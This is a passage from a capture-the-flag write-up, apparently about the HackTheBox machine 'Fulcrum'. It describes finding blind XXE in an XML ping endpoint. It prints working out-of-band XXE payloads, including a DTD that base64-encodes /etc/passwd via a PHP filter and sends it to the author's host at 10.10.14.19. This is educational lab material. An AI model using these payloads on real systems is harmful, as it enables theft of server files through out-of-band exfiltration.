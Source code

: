 Saw that I had to use `<Heartbeat><Ping>Pong</Ping></Heartbeat>` to trigger a different response:

![](../../../.gitbook/assets/htb-fulcrum-image-3.png)

From here, XXE should be the path forward. This seems to be a blind injection since this  thing shows nothing but PingPong. 

Using this payload triggers a callback on my machine:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.19/hiiamxxe"> %xxe;]>
```

![](../../../.gitbook/assets/htb-fulcrum-image-4.png)

Since this is blind XXE with SSRF, I can try to exfiltrate data out. I used the OOB with DTD and PHP filter method method from PayloadAllTheThings.

This involved me creating this `dtd.xml` file:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.19:8000/dtd.xml?%data;'>">
```

Afterwards, the payload to send to the website is:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://10.10.14.19/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```
